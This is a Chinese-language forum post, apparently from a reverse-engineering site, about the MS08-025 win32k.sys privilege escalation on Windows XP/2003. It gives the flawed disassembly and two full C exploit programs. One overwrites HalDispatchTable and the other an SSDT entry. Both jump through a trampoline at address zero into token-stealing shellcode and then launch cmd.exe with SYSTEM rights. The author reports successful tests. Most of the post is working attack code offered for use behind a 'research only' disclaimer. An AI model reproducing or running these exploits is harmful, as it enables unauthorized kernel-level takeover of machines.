

# MS08-025 win32k.sys NtUserFnOUTSTRING Privilege Escalation Exploit

> 原文：[`www.pediy.com/kssd/pediy10/63099.html`](https://www.pediy.com/kssd/pediy10/63099.html)

问题出在 ProbeForWrite 在处理指定的地址可写时，传入指定的长度为 0 时就不进行判断，就可以造成指定的地址可写，这样我们就可以写任意的内核空间了，  
  
.text:BF850BB7                 push    14h  
.text:BF850BB9                 push    offset stru\_BF9940D0  
.text:BF850BBE                 call    \_\_SEH\_prolog  
.text:BF850BC3                 xor     edx, edx  
.text:BF850BC5                 mov     \[ebp+ms\_exc.disabled\], edx  
.text:BF850BC8                 mov     eax, \[ebp+var\_20\]  
.text:BF850BCB                 mov     ecx, 7FFFFFFFh  
.text:BF850BD0                 and     eax, ecx  
.text:BF850BD2                 mov     esi, \[ebp+arg\_18\]  
.text:BF850BD5                 shl     esi, 1Fh  
.text:BF850BD8                 or      eax, esi  
.text:BF850BDA                 mov     \[ebp+var\_20\], eax  
.text:BF850BDD                 mov     esi, eax  
.text:BF850BDF                 xor     esi, \[ebp+arg\_8\]  
.text:BF850BE2                 and     esi, ecx  
.text:BF850BE4                 xor     eax, esi  
.text:BF850BE6                 mov     \[ebp+var\_20\], eax  
.text:BF850BE9                 cmp     \[ebp+arg\_18\], edx  
.text:BF850BEC                 jnz     short loc\_BF850BFA  
.text:BF850BEE                 lea     esi, \[eax+eax\] //当 eax=0x80000000 时，esi 就会整形溢出为 0，这样就触发了可写内核空间  
.text:BF850BF1                 xor     esi, eax  
.text:BF850BF3                 and     esi, ecx  
.text:BF850BF5                 xor     eax, esi  
.text:BF850BF7                 mov     \[ebp+var\_20\], eax  
.text:BF850BFA  
.text:BF850BFA loc\_BF850BFA:                           ; CODE XREF: NtUserfnOUTSTRING(x,x,x,x,x,x,x)+35 j  
.text:BF850BFA                 mov     \[ebp+var\_24\], edx  
.text:BF850BFD                 mov     esi, \[ebp+Address\]  
.text:BF850C00                 mov     \[ebp+var\_1C\], esi  
.text:BF850C03                 xor     ebx, ebx  
.text:BF850C05                 inc     ebx  
.text:BF850C06                 push    ebx             ; Alignment  
.text:BF850C07                 and     eax, ecx  
.text:BF850C09                 push    eax             ; Length //length=0  
.text:BF850C0A                 push    esi             ; Address  
.text:BF850C0B                 call    ds:\_\_imp\_\_ProbeForWrite@12 ; ProbeForWrite(x,x,x)  
.text:BF850C11                 or      \[ebp+ms\_exc.disabled\], 0FFFFFFFFh  
.text:BF850C15                 mov     eax, \[ebp+arg\_14\]  
.text:BF850C18                 add     eax, 6  
.text:BF850C1B                 and     eax, 1Fh  
.text:BF850C1E                 push    \[ebp+arg\_10\]  
.text:BF850C21                 lea     ecx, \[ebp+var\_24\]  
.text:BF850C24                 push    ecx  
.text:BF850C25                 push    \[ebp+arg\_8\]  
.text:BF850C28                 push    \[ebp+arg\_4\]  
.text:BF850C2B                 push    \[ebp+arg\_0\]  
.text:BF850C2E                 mov     ecx, \_gpsi  
.text:BF850C34                 call    dword ptr \[ecx+eax\*4+8\]  
.text:BF850C38                 mov     edi, eax  
.text:BF850C3A                 test    edi, edi  
.text:BF850C3C                 jz      loc\_BF850B94  
.text:BF850C42  
.text:BF850C42 loc\_BF850C42:                           ; CODE XREF: NtUserfnOUTSTRING(x,x,x,x,x,x,x)-20 j  
.text:BF850C42                                         ; NtUserfnOUTSTRING(x,x,x,x,x,x,x)-A j  
.text:BF850C42                 mov     eax, edi  
.text:BF850C44                 call    \_\_SEH\_epilog  
.text:BF850C49                 retn    1Ch  
.text:BF850C49 \_NtUserfnOUTSTRING@28 endp  
.text:BF850C49  
.text:BF850C4C ; ---------------------------------------------------------  
  
这里是通过覆盖了内核中的 HalDispatchTable 表来执行 shellcode 的  
  
下面是我修改 ruben 的 exploit  
  
// ms08-25-exploit #1  
// This exploit takes advantage of one of the vulnerabilities  
// patched in the Microsoft Security bulletin MS08-25  
// [`www.microsoft.com/technet/sec.../ms08-025.mspx`](http://www.microsoft.com/technet/security/bulletin/ms08-025.mspx)  
// ---------------------------------------  
// For research purposes ONLY.  
// ---------------------------------------  
// Ruben Santamarta  
// [www.reversemode.com](http://www.reversemode.com)  
// http://hi.baidu.com/vessial changed the shellcode  
  
#include "stdafx.h"  
  
  
  
typedef enum \_KPROFILE\_SOURCE {  
  
  
    ProfileTime,  
    ProfileAlignmentFixup,  
    ProfileTotalIssues,  
    ProfilePipelineDry,  
    ProfileLoadInstructions,  
    ProfilePipelineFrozen,  
    ProfileBranchInstructions,  
    ProfileTotalNonissues,  
    ProfileDcacheMisses,  
    ProfileIcacheMisses,  
    ProfileCacheMisses,  
    ProfileBranchMispredictions,  
    ProfileStoreInstructions,  
    ProfileFpInstructions,  
    ProfileIntegerInstructions,  
    Profile2Issue,  
    Profile3Issue,  
    Profile4Issue,  
    ProfileSpecialInstructions,  
    ProfileTotalCycles,  
    ProfileIcacheIssues,  
    ProfileDcacheAccesses,  
    ProfileMemoryBarrierCycles,  
    ProfileLoadLinkedIssues,  
    ProfileMaximum  
  
} KPROFILE\_SOURCE, \*PKPROFILE\_SOURCE;  
  
typedef DWORD (WINAPI \*PNTQUERYINTERVAL)( KPROFILE\_SOURCE ProfileSource,  
                                           PULONG          Interval );  
  
typedef NTSTATUS (WINAPI \*PNTALLOCATE)(   IN HANDLE               ProcessHandle,  
                                       IN OUT PVOID            \*BaseAddress,  
                                       IN ULONG                ZeroBits,  
                                       IN OUT PULONG           RegionSize,  
                                       IN ULONG                AllocationType,  
                                       IN ULONG                Protect );  
  
OSVERSIONINFOEX OsVersionInfo;  
  
\_declspec(naked) int ShellCode()  
{  
    
      if ( OsVersionInfo.dwMinorVersion == 1 ) {  
  
       \_\_asm {  
  
               nop  
               nop  
               nop  
               nop  
               nop  
               nop  
  
               mov eax,0xFFDFF124 // eax = KPCR (not 3G Mode)  
               Mov eax,\[eax\]  
  
               mov esi,\[eax+0x220\]  
               mov eax,esi  
  
searchXp:  
  
               mov eax,\[eax+0x88\]  
               sub eax,0x88  
               mov edx,\[eax+0x84\]  
               cmp edx,0x4 // Find System Process  
               jne searchXp  
  
               mov eax,\[eax+0xc8\] // 获取 system 进程的 token  
               mov \[esi+0xc8\],eax // 修改当前进程的 token  
  
               ret 8  
  
       }  
   }  
   if ( OsVersionInfo.dwMinorVersion == 2 ) {  
  
       \_\_asm {  
  
           nop  
               nop  
               nop  
               nop  
               nop  
               nop  
  
               mov eax,0xFFDFF124 // eax = KPCR (not 3G Mode)  
               Mov eax,\[eax\]  
  
               mov esi,\[eax+0x220\]  
               mov eax,esi  
  
search2003:  
  
               mov eax,\[eax+0x98\]  
               sub eax,0x98  
               mov edx,\[eax+0x94\]  
                cmp edx,0x4 // Find System Process  
               jne search2003  
  
               mov eax,\[eax+0xd8\] // 获取 system 进程的 token  
               mov \[esi+0xd8\],eax // 修改当前进程的 token  
               ret 8  
  
       }  
   }  
  
    
}  
\_declspec(naked) ULONG \_\_stdcall NtUserMessageCall  
(  
   IN HWND arg1,  
    IN ULONG\_PTR arg2,  
    IN ULONG\_PTR arg3,  
    IN ULONG\_PTR arg4,  
    IN ULONG\_PTR arg5,  
    IN ULONG\_PTR arg6,  
   IN ULONG\_PTR arg7  
)  
{  
   \_\_asm  
   {  
       mov eax, 000011cch  
       mov edx, 7ffe0300h  
       call dword ptr \[edx\]  
       retn 1Ch  
   }  
}  
  
  
void InitTrampoline()  
{  
  
   PNTALLOCATE NtAllocateVirtualMemory;  
   LPVOID       addr = (LPVOID)3;  
   DWORD       dwShellSize=0x1000;  
   unsigned char trampoline\[\]="\\x68\\x00\\x00\\x00\\x00" //push 0x0  
                               "\\xc3";                                           // retn  
  
   NtAllocateVirtualMemory = (PNTALLOCATE) GetProcAddress(GetModuleHandle("ntdll.dll"),"NtAllocateVirtualMemory");  
    
   if( !NtAllocateVirtualMemory )  
       exit(0);    
    
   NtAllocateVirtualMemory(   (HANDLE)-1,  
                               &addr,  
                               0,  
                               &dwShellSize,  
                               MEM\_RESERVE|MEM\_COMMIT|MEM\_TOP\_DOWN,  
                               PAGE\_EXECUTE\_READWRITE );  
  
   if( (ULONG\_PTR)addr )  
   {  
       printf("\\n\[++\] Error Allocating memory\\n");  
       exit(0);    
   }  
  
    
   \*(ULONG\_PTR\*)(trampoline+1)=(ULONG\_PTR)ShellCode;//push &shellcode  
                   // retn  
                                                                                             这样就可以直接执行 shellcode 了  
   memcpy(NULL,trampoline,sizeof(trampoline)-1);       指 跳转指令写入 0x0 地址，cool 吧，你有做过吗？:)  
}  
int Callback\_Overview()  
{  
   printf("\\n");  
   printf("=====================================================================   \\n");  
   printf("\\t\\tMicrosoft Windows XP SP2 - MS08-025 -       \\n");  
   printf("\\twin32k.sys NtUserFnOUTSTRING Privilege Escalation Exploit   \\n");  
   printf("=====================================================================   \\n");  
   printf("+ References:\\n");  
   printf(" http://www.microsoft.com/technet/security/bulletin/ms08-025.mspx\\n");  
   printf(" http://www.reversemode.com\\n\\n");  
    printf(" http://hi.baidu.com/vessial\\n\\n");  
    printf(" vessial just changed the shellcode can get the system token\\n");  
   return 1;  
}  
  
  
int main(int argc, char \*\*argv)  
{  
    
  
   PNTQUERYINTERVAL   NtQueryIntervalProfile;  
   KPROFILE\_SOURCE   stProfile = ProfileTotalIssues;  
  
   ULONG\_PTR   HalDispatchTable;  
   ULONG\_PTR   BaseNt=0;  
   ULONG\_PTR   result;  
    
   HMODULE       hKernel;  
   char       szNtos\[MAX\_PATH\] = {0};  
  
   STARTUPINFOA                stStartup;  
   PROCESS\_INFORMATION            pi;  
  
  
   Callback\_Overview();  
     
   LoadLibrary("user32.dll");  
  
   if( GetDriverInfoByName("krnl",szNtos,&BaseNt) )  
   {  
       printf("\[+\] %s loaded at   \\t \[ 0x%p \]\\n",szNtos,BaseNt);  
        
   }  
   else  
   {  
       printf("\[!!\] Kernel not found :?\\n");  
       return FALSE;  
   }  
  
   if( strstr(szNtos,"krnlpa") )  
   {  
       hKernel = LoadLibraryExA("ntkrnlpa.exe",0,1);    
   }  
   else  
   {  
       hKernel = LoadLibraryExA("ntoskrnl.exe",0,1);  
   }    
  
   HalDispatchTable = (ULONG\_PTR)GetProcAddress(hKernel, "HalDispatchTable");  
  
   if( !HalDispatchTable )  
   {  
       printf("\[!!\] HalDispatchTable not found\\n");  
       return FALSE;  
   }  
    
    
  
   RtlZeroMemory( &OsVersionInfo, sizeof(OsVersionInfo) );  
   OsVersionInfo.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEX);  
   GetVersionEx ((OSVERSIONINFO \*) &OsVersionInfo);  
  
   if ( OsVersionInfo.dwMajorVersion != 5 ) {  
  
       printf( "Not NT5 system\\n" );  
       ExitProcess( 0 );  
   }  
   //Get Operatiny System Version  
   HalDispatchTable -= ( ULONG\_PTR )hKernel;  
   HalDispatchTable += BaseNt;  
  
   printf("\[+\] HalDispatchTable found    \\t\\t\\t \[ 0x%p \]\\n",HalDispatchTable);  
    
   printf("\[+\] NtQueryIntervalProfile ");  
  
   NtQueryIntervalProfile = ( PNTQUERYINTERVAL )  
                           GetProcAddress(   GetModuleHandle("ntdll.dll")  
                                           ,"NtQueryIntervalProfile");  
    
   if( !NtQueryIntervalProfile )  
   {  
       printf("\[!!\] Unable to resolve NtQueryIntervalProfile\\n");  
       return FALSE;  
   }  
   printf( "\\t\\t\\t \[ 0x%p \]\\n",NtQueryIntervalProfile );  
    
   InitTrampoline();  
  
   NtUserMessageCall(   GetDesktopWindow(),  
                       0xD,  
                       0x80000000,  
                       HalDispatchTable+sizeof(WORD)+sizeof(ULONG\_PTR),  
                       0x0,  
                       0x0,  
                       0x0);  
   NtUserMessageCall(   GetDesktopWindow(),  
                       0xD,  
                       0x80000000,  
                       HalDispatchTable+sizeof(ULONG\_PTR),  
                       0x0,  
                       0x0,  
                       0x0);  
   printf("\\n\[+\] Executing Shellcode...\\n");  
    
   NtQueryIntervalProfile(stProfile,&result);//这里的作用是为了 call 0x0,真是经典  
   GetStartupInfo( &stStartup );  
  
   CreateProcess( NULL,  
       "cmd.exe",  
       NULL,  
       NULL,  
       TRUE,  
       NULL,  
       NULL,  
       NULL,  
       &stStartup,  
       &pi );   //此时创建的 cmd.exe 是 SYSTEM 权限  
  
     
   printf("\[+\] Exiting...\\n");  
  
   return TRUE;  
}  
  
  在 XP 系统下测试成功:)  
  2003 还没有试过，大家试试：）  
  
  
技术研究，请勿作非法用途

上传的附件
|  || ms08-25-exploit.rar \[解压密码：PEDIY\]   
 |

看见上帖，大家提了一下，我以前也没有试过，于是现在自已尝试一下，没想到还真成功了，呵呵，谢谢大家的提醒：）  
  
MS08-025 win32k.sys NtUserFnOUTSTRING Privilege Escalation Exploit  
另一种利用方式，通过覆盖 SSDT 表 NtVdmControl 的地址进行 shellcode 的执行  
  
#include <stdio.h>  
#include <windows.h>  
  
typedef LONG NTSTATUS;  
typedef NTSTATUS (NTAPI \*PNTALLOCATE)(HANDLE               ProcessHandle,  
                                       PVOID            \*BaseAddress,  
                                       ULONG                ZeroBits,  
                                       PULONG           RegionSize,  
                                       ULONG                AllocationType,  
                                       ULONG                Protect );  
typedef NTSTATUS (NTAPI \*ZWVDMCONTROL)(ULONG, PVOID);  
void ErrorQuit(char \*msg)  
{  
    printf("%s:%x\\n", msg, GetLastError());  
    ExitProcess(0);  
}  
ZWVDMCONTROL    ZwVdmControl=NULL;  
OSVERSIONINFOEX OsVersionInfo;  
  
\_declspec(naked) int ShellCode()  
{  
  
      if ( OsVersionInfo.dwMinorVersion == 1 ) {  
  
       \_\_asm {  
  
               nop  
               nop  
               nop  
               nop  
               nop  
               nop  
  
               mov eax,0xFFDFF124 // eax = KPCR (not 3G Mode)  
               Mov eax,\[eax\]  
  
               mov esi,\[eax+0x220\]  
               mov eax,esi  
  
searchXp:  
  
               mov eax,\[eax+0x88\]  
               sub eax,0x88  
               mov edx,\[eax+0x84\]  
               cmp edx,0x4 // Find System Process  
               jne searchXp  
  
               mov eax,\[eax+0xc8\] // 获取 system 进程的 token  
               mov \[esi+0xc8\],eax // 修改当前进程的 token  
  
               ret 8  
  
       }  
   }  
   if ( OsVersionInfo.dwMinorVersion == 2 ) {  
  
       \_\_asm {  
  
           nop  
               nop  
               nop  
               nop  
               nop  
               nop  
  
               mov eax,0xFFDFF124 // eax = KPCR (not 3G Mode)  
               Mov eax,\[eax\]  
  
               mov esi,\[eax+0x220\]  
               mov eax,esi  
  
search2003:  
  
               mov eax,\[eax+0x98\]  
               sub eax,0x98  
               mov edx,\[eax+0x94\]  
                cmp edx,0x4 // Find System Process  
               jne search2003  
  
               mov eax,\[eax+0xd8\] // 获取 system 进程的 token  
               mov \[esi+0xd8\],eax // 修改当前进程的 token  
               ret 8  
  
       }  
   }  
  
  
}  
  
void InitTrampoline()  
{  
  
   PNTALLOCATE NtAllocateVirtualMemory;  
   LPVOID       addr = (LPVOID)3;  
   DWORD       dwShellSize=0x1000;  
   unsigned char trampoline\[\]="\\x68\\x00\\x00\\x00\\x00" //push 0x0  
                               "\\xc3";               // retn  
  
   NtAllocateVirtualMemory = (PNTALLOCATE) GetProcAddress(GetModuleHandle("ntdll.dll"),"NtAllocateVirtualMemory");  
  
   if( !NtAllocateVirtualMemory )  
       exit(0);  
  
   NtAllocateVirtualMemory(   (HANDLE)-1,  
                               &addr,  
                               0,  
                               &dwShellSize,  
                               MEM\_RESERVE|MEM\_COMMIT|MEM\_TOP\_DOWN,  
                               PAGE\_EXECUTE\_READWRITE );  
  
   if( (PULONG)addr )  
   {  
       printf("\\n\[++\] Error Allocating memory\\n");  
       exit(0);  
   }  
  
  
   \*(PULONG\*)(trampoline+1)=(PULONG)ShellCode;  
   memcpy(NULL,trampoline,sizeof(trampoline)-1);  
}  
int Callback\_Overview()  
{  
   printf("\\n");  
   printf("=====================================================================   \\n");  
   printf("\\t\\tMicrosoft Windows XP SP2 - MS08-025 -       \\n");  
   printf("\\twin32k.sys NtUserFnOUTSTRING Privilege Escalation Exploit   \\n");  
   printf("=====================================================================   \\n");  
   printf("+ References:\\n");  
   printf(" http://www.microsoft.com/technet/security/bulletin/ms08-025.mspx\\n");  
   printf(" http://hi.baidu.com/vessial\\n\\n");  
   return 1;  
}  
  
void GetFunction()  
{  
    HANDLE    hNtdll,hNtos;  
     
    hNtdll = LoadLibrary("ntdll.dll");  
    if(hNtdll == NULL)  
        ErrorQuit("LoadLibrary failed.\\n");  
         
    ZwVdmControl = (ZWVDMCONTROL)GetProcAddress(hNtdll, "ZwVdmControl");  
    if(ZwVdmControl == NULL)  
        ErrorQuit("GetProcAddress failed.\\n");  
                
    FreeLibrary(hNtdll);  
}  
int main(int argc, char \*\*argv)  
{  
  
   //PULONG   PntVdmControl=0x805F0DB0;  
PULONG   PntVdmControl=0x80502460; //通过\*(PULONG)(KeServiceDescriptorTalbe)+0x10c\*4 获得  
     
      
   STARTUPINFOA                stStartup;  
   PROCESS\_INFORMATION            pi;  
  
  
   Callback\_Overview();  
   GetFunction();  
   RtlZeroMemory( &OsVersionInfo, sizeof(OsVersionInfo) );  
   OsVersionInfo.dwOSVersionInfoSize = sizeof(OSVERSIONINFOEX);  
   GetVersionEx ((OSVERSIONINFO \*) &OsVersionInfo);  
  
   if ( OsVersionInfo.dwMajorVersion != 5 ) {  
  
       printf( "Not NT5 system\\n" );  
       ExitProcess( 0 );  
   }  
   //Get Operatiny System Version  
         
   InitTrampoline();  
  
   SendMessageW( GetDesktopWindow(), WM\_GETTEXT, 0x80000000, (char\*)PntVdmControl );  
   SendMessageW( GetDesktopWindow(), WM\_GETTEXT, 0x80000000, (char\*)PntVdmControl+2);//覆盖 NtVdmControl 所在的 SSDT 表，覆盖后结果为 0x0  
   printf("\\n\[+\] Executing Shellcode...\\n");  
  
   ZwVdmControl(0, NULL);//这里就是 call 0x0 了，跳转执行我们的 shellcode,哈哈：）  
   GetStartupInfo( &stStartup );  
  
   CreateProcess( NULL,  
       "cmd.exe",  
       NULL,  
       NULL,  
       TRUE,  
       NULL,  
       NULL,  
       NULL,  
       &stStartup,  
       &pi );   //此时创建的 cmd.exe 是 SYSTEM 权限  
  
    
   printf("\[+\] Exiting...\\n");  
  
   return TRUE;  
}  
我在 XP 测试成功，下面的第一个 cmd 是 SYSTEM 权限，这是我们提权后的，一个 cmd 是 test 权限  
  
